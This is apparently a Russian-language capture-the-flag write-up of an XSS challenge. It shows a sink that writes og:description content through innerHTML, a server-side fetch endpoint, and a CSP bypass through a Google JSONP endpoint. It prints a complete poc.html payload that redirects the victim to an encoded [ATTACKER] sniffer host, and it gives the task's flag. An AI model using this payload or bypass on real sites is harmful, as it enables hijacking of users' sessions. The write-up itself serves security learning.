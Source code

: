 # Cherkasy (19.owaspctf.gq)

На главной странице видим 2 формы для ввода URL. Первая (верхняя) показывает на примере `https://www.instagram.com/p/BtEHP5AgOli/`
как достается картинка и описание из инстаграма и выводится на текущую страницу.

Вторая форма для отправки нашей ссылки (судя по всему XSS bot'у).

---

`http://19.owaspctf.gq/script.js`

Весь функционал работает на клиентской стороне, делается ajax-запрос к инстаграму и парсят html страницу.
А именно ищутся теги `<meta>` с соответствующими атрибутами:
```
property=og:description
property=og:image
property=og:video
```

Интересным является процесс обработки `description`:

```
function createDescription(data){
  // create info
  var info = document.createElement('p');
  info.innerHTML = data.content;
  render.appendChild(info); // append link

};
```

То есть содержимое атрибута `content` попадает в DOM нашей страницы. Но есть несколько нюансов:

* Инстаграм html-кодирует спецсимволы в описании к картинке
* Инстаграм обрезает описание в теге `<meta>` если оно слишком большое по длине.
* CSP

---

Внимательней посмотрев на главную страницу можно так же заметить следующий тег:
```
<noscript><meta http-equiv="refresh" content="0; url=jsdisabled.php" /></noscript>
```

`jsdisabled.php` выглядит точной копией главной страницы, но поработав с ним можно обнаружить что ему напрямую можно передать GET параметр `url`,
и по переданной ссылке скрипт ходит сам (а не client-side как это на главной странице).

Это значит что теперь мы не ограничены только инстграмом и можем передать произвольную ссылку по которой точно так же будут парсится и выводится теги.

Так же и CSP тут немного отличается:

```
default-src 'self' data: *.instagram.com;
script-src 'self' *.instagram.com *.google.com https://www.gstatic.com/recaptcha/ api.mixpanel.com;
style-src 'self';
img-src * data:;
media-src *;
frame-src *.instagram.com *.google.com/recaptcha/
```

Немного погуглив можно найти следующий endpoint на www.google.com который подходит для обхода CSP (script-src *.google.com):

```
$ curl --silent 'http://www.google.com/complete/search?client=chrome&jsonp=alert(1);//'
alert(1);//(["",[],[],[],{"google:clientdata":{"bpc":false,"tlw":false},"google:suggesttype":[],"google:verbatimrelevance":851}])
```

В параметре `jsonp` нельзя использовать кавычки, так что необходимо строку с URL на сниффер заенкодировать

```
http://[ATTACKER]/? -> String.fromCharCode.apply(null,[0x68,0x74,0x74,0x70,0x3a,0x2f,0x2f,0x5b,0x41,0x54,0x54,0x41,0x43,0x4b,0x45,0x52,0x5d,0x2f,0x3f])
```

`http://[ATTACKER]/poc.html`:

```
<meta property="og:description" content="<script src='//www.google.com/complete/search?client=chrome&jsonp=window.location=(String.fromCharCode.apply(null,[0x68,0x74,0x74,0x70,0x3a,0x2f,0x2f,0x5b,0x41,0x54,0x54,0x41,0x43,0x4b,0x45,0x52,0x5d,0x2f,0x3f]));//'></script>">
```

`FLAG{Home_is_where_my_cat_is}`
